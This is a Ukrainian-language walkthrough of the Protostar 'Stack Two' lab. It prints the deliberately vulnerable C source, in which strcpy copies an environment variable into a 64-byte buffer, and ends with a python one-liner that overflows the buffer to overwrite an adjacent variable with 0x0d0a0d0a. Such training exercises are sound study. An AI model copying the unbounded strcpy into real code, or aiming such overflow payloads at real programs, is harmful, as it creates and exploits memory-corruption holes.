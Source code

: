 ## [Stack Two](http://exploit.education/protostar/stack-two/)

На даному рівні розглядаються змінні середовища та те, як їх можна встановити.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Тут ми маємо схожу ситуацію до Stack1. Але є дві великі відмінності. По-перше, ```strcpy()``` використовує змінну, яка походить із створеної змінної середовища ```GREENIE```. 
По-друге, шістнадцяткові значення ```0x0d``` та ```0x0a``` відповідають поверненню каретки та новому рядку відповідно, які ми не можемо ввести у вигляді символів (наприклад, як 'abcd' у Stack1).

Змінну оточення можна легко задати, використовуючи команду ```export```:  
```export GREENIE=test_env```

Для перевірки можна використати наступну команду:  
```env | grep GREENIE```

У тому числі змінну оточення можна задати використовуючи код python:  
```export GREENIE=$(python -c "print('python_test_env')")```

Стосовно другої проблеми, то можна просто використовувати формат ```\x0d```, який є у python.

Отже, маємо:  
```export GREENIE=$(python -c "print('a' * 64 + '\x0d\x0a\x0d\x0a'[::-1])"); ./stack2```